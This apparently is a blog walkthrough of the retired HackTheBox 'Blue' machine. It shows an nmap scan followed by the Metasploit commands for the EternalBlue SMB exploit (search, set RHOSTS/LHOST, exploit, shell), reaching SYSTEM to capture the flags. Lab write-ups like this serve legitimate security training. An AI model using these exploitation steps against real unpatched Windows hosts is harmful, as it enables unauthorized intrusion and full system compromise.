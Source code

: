 ```yaml
---
layout: post
title: CTF Walkthrough - HacktheBox Blue
toc: true
subtitle: Retired Machine
comments: false
---
```


## Blue ![propic](/pictures/blue/blue.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/blue 10.10.10.68
```
![nmap](/pictures/blue/nmap.png)

There is an open port 445 (smb) from the default nmap script. It looks like it is running Windows 7 Professional 7601. A quick google search shows that it is vulnerable to EternalBlue.

![msfconsole](/pictures/blue/msfconsole.png)

I open up metasploit and search for keywords: smb eternalblue. I'll be using the first exploit(0).
```
msfconsole
search smb eternalblue
use 0
show options
set RHOSTS 10.10.*
set LHOST 10.10.*
exploit
shell
whoami (nt authority\system)
```
With a metasploit shell under system, I can capture both the user and root flags as shown below. Easy box!

![user](/pictures/blue/user.png)
![root](/pictures/blue/root.png)
